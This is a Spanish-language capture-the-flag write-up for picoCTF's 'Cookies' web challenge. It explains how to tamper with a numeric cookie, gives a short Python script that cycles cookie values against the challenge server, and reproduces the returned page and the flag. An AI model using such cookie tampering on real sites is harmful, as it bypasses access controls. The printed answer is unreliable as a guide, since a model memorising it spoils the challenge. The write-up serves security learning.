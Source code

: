 ## Descripción
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/

## Pistas
- (None)

## Solución
- Para resolver este reto, tenemos que ingresar diferentes tipos de galletas para poder ingresar a la pestaña que podria ser donde esta la flag. Como no escribiremos nombres de galletas, veremos las cookies y nos daremos cuenta que las cookies en el apartado `value` son numeros reales, por lo que si los modificamos podremos ingresar a todas las pestañas.
- Despues de intentar con 5 numeros seguidos, nos dimos cuenta que es una perdida de tiempo buscarlas una por una. Por lo que haremos un ciclo for que recorra al menos 20 posiciones el valor de la cookie y filtrar la que en su pestaña se encuentre la flag con el formato `picoCTF`.

```python()
└─$ cat exploit.py    
import requests

url = "http://mercury.picoctf.net:29649/check"

for i in range(20):
        cookie ={"name":f"{i}"}
        r = requests.get(url, cookies=cookie)
        if "picoCTF" in r.text:
                print(r.text)
                              
```

- En este codigo vemos que se importa la llibreria  `requests` que nos ayudara a obtener los datos del sitio web. Tambien vemos el ciclo `for` que recorre la variable `i` 20 ciclos en busca de la cookle que tenga en su nombre "picoCTF".
- Vemos que como resultado nos da:

```HTML()
└─$ python3 exploit.py
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>

```

- Resumido, la flag seria:
```bash()
picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}
```

## Notas adicionales
- `requests` es una librería Python que facilita enormemente el trabajo con peticiones HTTP. Antes o después, en algún proyecto, es posible que tengas que hacer peticiones web, ya sea para consumir un API, extraer información de una página o enviar el contenido de un formulario de manera automatizada. Si es así, Python `requests` es tu gran aliada.

## Referencias 
[Python requests](https://j2logo.com/python/python-requests-peticiones-http/)
